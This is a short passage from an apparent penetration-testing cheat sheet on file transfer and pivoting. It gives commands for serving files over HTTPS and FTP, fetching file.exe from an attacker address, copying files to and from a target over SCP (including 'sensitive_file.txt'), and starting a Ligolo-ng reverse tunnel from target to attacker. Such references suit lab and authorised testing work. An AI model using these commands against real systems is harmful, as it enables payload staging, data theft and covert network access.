 ```python
python3 -c "import http.server, ssl, socketserver; httpd = socketserver.TCPServer(('', 443), http.server.SimpleHTTPRequestHandler); httpd.socket = ssl.wrap_socket(httpd.socket, certfile='server.pem', server_side=True); httpd.serve_forever()"
```

## Start Python FTP server

```bash
python3 -m pyftpdlib -p 21 -w
```

## Download from FTP server

```bash
wget ftp://10.10.14.5/file.exe
```

## Upload file to target using SCP

```bash
scp file.exe user@$IP:/tmp/
```

## Download file from target using SCP

```bash
scp user@$IP:/tmp/sensitive_file.txt .
```

## Upload file using SCP on custom port

```bash
scp -P 2222 file.exe user@$IP:/tmp/
```

## Start Ligolo-ng proxy on attacker

```bash
./proxy -selfcert
```

## Connect Ligolo-ng agent from target

```bash
./agent -connect 10.10.14.5:11601 -ignore-cert
```

## Start Ligolo-ng tunnel session

```bash
session
start
```
